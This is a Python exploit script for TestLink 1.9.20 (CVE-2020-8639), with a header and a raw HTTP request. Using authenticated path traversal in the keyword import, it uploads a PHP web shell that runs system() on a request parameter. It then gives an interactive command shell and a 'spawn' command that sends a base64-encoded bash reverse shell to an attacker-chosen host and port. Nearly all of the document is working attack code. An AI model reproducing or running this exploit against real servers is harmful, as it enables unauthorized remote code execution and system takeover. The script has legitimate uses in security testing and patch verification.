 EXP
---

    # Exploit Title: TestLink 1.9.20 - Unrestricted File Upload (Authenticated)
    # Date: 14th February 2021
    # Exploit Author: snovvcrash
    # Original Research by: Ackcent AppSec Team
    # Original Research: https://ackcent.com/testlink-1-9-20-unrestricted-file-upload-and-sql-injection/
    # Vendor Homepage: https://testlink.org/
    # Software Link: https://github.com/TestLinkOpenSourceTRMS/testlink-code
    # Version: 1.9.20
    # Tested on: Ubuntu 20.10
    # CVE: CVE-2020-8639
    # Requirements: pip3 install -U requests bs4
    # Usage Example: ./exploit.py -u admin -p admin -P 127.0.0.1:8080 http://127.0.0.1/testlink

    """
    Raw exploit request:

    POST /testlink/lib/keywords/keywordsImport.php HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: multipart/form-data; boundary=---------------------------242818621515179709592867995067
    Content-Length: 1187
    Origin: http://127.0.0.1
    Connection: close
    Referer: http://127.0.0.1/testlink//lib/keywords/keywordsImport.php?tproject_id=1
    Cookie: PHPSESSID=kvbpl3t3lec42qbjdcgdppncib; TESTLINK1920TESTLINK_USER_AUTH_COOKIE=af57ebce9f54ce0f0e36d24ef25dc9c1b3a9d2f8e0b9cb4454c973927306e90f
    Upgrade-Insecure-Requests: 1

    -----------------------------242818621515179709592867995067
    Content-Disposition: form-data; name="CSRFName"

    CSRFGuard_1115715115
    -----------------------------242818621515179709592867995067
    Content-Disposition: form-data; name="CSRFToken"

    506c4b44825c5e5885231c263e7195188dedbd154b9cf74e5d183c1feb953aec7c0edae1097649d82acd20f6f851e0cdbac91cc0589d1cfd6fb13741f9cf0cb8
    -----------------------------242818621515179709592867995067
    Content-Disposition: form-data; name="importType"

    /../../../logs/pwn.php
    -----------------------------242818621515179709592867995067
    Content-Disposition: form-data; name="MAX_FILE_SIZE"

    409600
    -----------------------------242818621515179709592867995067
    Content-Disposition: form-data; name="uploadedFile"; filename="foo.xml"
    Content-Type: application/xml

    <?php if(isset($_REQUEST['c'])){system($_REQUEST['c'].' 2>&1' );} ?>
    -----------------------------242818621515179709592867995067
    Content-Disposition: form-data; name="tproject_id"

    1
    -----------------------------242818621515179709592867995067
    Content-Disposition: form-data; name="UploadFile"

    Upload file
    -----------------------------242818621515179709592867995067--
    """

    #!/usr/bin/env python3

    import re
    from urllib import parse
    from cmd import Cmd
    from base64 import b64encode
    from argparse import ArgumentParser

    import requests
    from bs4 import BeautifulSoup

    parser = ArgumentParser()
    parser.add_argument('target', help='target full URL without trailing slash, ex. "http://127.0.0.1/testlink"')
    parser.add_argument('-u', '--username', default='admin', help='TestLink username')
    parser.add_argument('-p', '--password', default='admin', help='TestLink password')
    parser.add_argument('-P', '--proxy', default=None, help='HTTP proxy in format <HOST:PORT>, ex. "127.0.0.1:8080"')
    args = parser.parse_args()


    class TestLinkWebShell(Cmd):

        payloadPHP = """<?php if(isset($_REQUEST['c'])){system($_REQUEST['c'].' 2>&1' );} ?>"""
        uploadPath = 'logs/pwn.php'
        prompt = '$ '

        def __init__(self, target, username, password, proxies):
            super().__init__()

            self.target = target
            self.username = username
            self.password = password

            if proxies:
                self.proxies = {'http': f'http://{proxies}', 'https': f'http://{proxies}'}
            else:
                self.proxies = None

            self.session = requests.Session()
            self.session.verify = False

            resp = self.session.get(f'{self.target}/login.php', proxies=self.proxies)
            soup = BeautifulSoup(resp.text, 'html.parser')

            self.csrf_name = soup.find('input', {'name': 'CSRFName'}).get('value')
            self.csrf_token = soup.find('input', {'name': 'CSRFToken'}).get('value')
            self.req_uri = soup.find('input', {'name': 'reqURI'}).get('value')
            self.destination = soup.find('input', {'name': 'destination'}).get('value')

        def auth(self):
            data = {
                'CSRFName': self.csrf_name,
                'CSRFToken': self.csrf_token,
                'reqURI': self.req_uri,
                'destination': self.destination,
                'tl_login': self.username,
                'tl_password': self.password
            }

            resp = self.session.post(f'{self.target}/login.php?viewer=', data=data, proxies=self.proxies)
            if resp.status_code == 200:
                print('[*] Authentication succeeded')

                resp = self.session.get(f'{self.target}/lib/general/mainPage.php', proxies=self.proxies)
                if resp.status_code == 200:
                    print('[*] Loaded mainPage.php iframe contents')
                    soup = BeautifulSoup(resp.text, 'html.parser')

                    self.tproject_id = soup.find('a', {'href': re.compile(r'lib/keywords/keywordsView.php\?')}).get('href')
                    self.tproject_id = parse.parse_qs(parse.urlsplit(self.tproject_id).query)['tproject_id'][0]

                    print(f'[+] Extracted tproject_id value: {self.tproject_id}')

                else:
                    raise Exception('Error loading mainPage.php iframe contents')

            else:
                raise Exception('Authentication failed')

        def upload_web_shell(self):
            files = [
                ('CSRFName', (None, self.csrf_name)),
                ('CSRFToken', (None, self.csrf_token)),
                ('importType', (None, f'/../../../{TestLinkWebShell.uploadPath}')),
                ('MAX_FILE_SIZE', (None, '409600')),
                ('uploadedFile', ('foo.xml', TestLinkWebShell.payloadPHP)),
                ('tproject_id', (None, self.tproject_id)),
                ('UploadFile', (None, 'Upload file'))
            ]

            resp = self.session.post(f'{self.target}/lib/keywords/keywordsImport.php', files=files, proxies=self.proxies)
            if resp.status_code == 200:
                print(f'[*] Web shell uploaded here: {self.target}/{TestLinkWebShell.uploadPath}')

                print('[*] Trying to query whoami...')
                resp = self.session.get(f'{self.target}/{TestLinkWebShell.uploadPath}?c=whoami', proxies=self.proxies)
                if resp.status_code == 200:
                    print(f'[+] Success! Starting semi-interactive shell as {resp.text.strip()}')

                else:
                    raise Exception('Error interacting with the web shell')

            else:
                raise Exception('Error uploading web shell')

        def emptyline(self):
            pass

        def preloop(self):
            self.auth()
            self.upload_web_shell()

        def default(self, args):
            try:
                resp = self.session.get(f'{self.target}/{TestLinkWebShell.uploadPath}?c={args}', proxies=self.proxies)
                if resp.status_code == 200:
                    print(resp.text.strip())
            except Exception as e:
                print(f'*** Something weired happened: {e}')

        def do_spawn(self, args):
            """Spawn a reverse shell. Usage: \"spawn <LHOST> <LPORT>\"."""
            try:
                lhost, lport = args.split()
                payload = f'/bin/bash -i >& /dev/tcp/{lhost}/{lport} 0>&1'
                b64_payload = b64encode(payload.encode()).decode()
                cmd = f'echo {b64_payload} | base64 -d | /bin/bash'
                self.default(cmd)
            except Exception as e:
                print(f'*** Something weired happened: {e}')

        def do_EOF(self, args):
            """Use Ctrl-D to exit the shell."""
            print(); return True


    if __name__ == '__main__':
        tlws = TestLinkWebShell(args.target, args.username, args.password, args.proxy)
        tlws.cmdloop('Type help for list of commands')